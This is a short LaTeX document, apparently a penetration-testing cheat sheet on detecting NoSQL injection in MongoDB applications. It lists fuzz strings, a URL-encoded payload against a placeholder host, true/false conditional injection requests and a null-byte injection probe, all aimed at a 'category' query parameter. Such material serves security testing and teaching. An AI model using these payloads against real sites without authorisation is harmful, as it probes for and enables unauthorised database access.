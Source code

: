 \documentclass[12pt]{article}
\begin{document}
\section{Detection of NoSQL Injection}

\subsection{Syntax Injection Detection}

Test with fuzz strings that break query syntax:

\begin{lstlisting}
# MongoDB fuzz strings
'
"
\'
\"
`
`
{
;
$Foo
\xYZ
%00
\end{lstlisting}

\subsection{URL-Encoded Payload Example}

\begin{lstlisting}
https://insecure.com/products?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
\end{lstlisting}

\subsection{Conditional Behavior Test}

Test with true/false conditions:

\begin{lstlisting}
# False condition
/products?category=fizzy'+%26%26+0+%26%26+'x

# True condition
/products?category=fizzy'+%26%26+1+%26%26+'x
\end{lstlisting}

If responses differ, the application may be vulnerable.

\subsection{Null Byte Injection}

Test with null character:

\begin{lstlisting}
/products?category=fizzy'%00
\end{lstlisting}

MongoDB may ignore characters after null byte, potentially bypassing additional conditions.
\end{document}

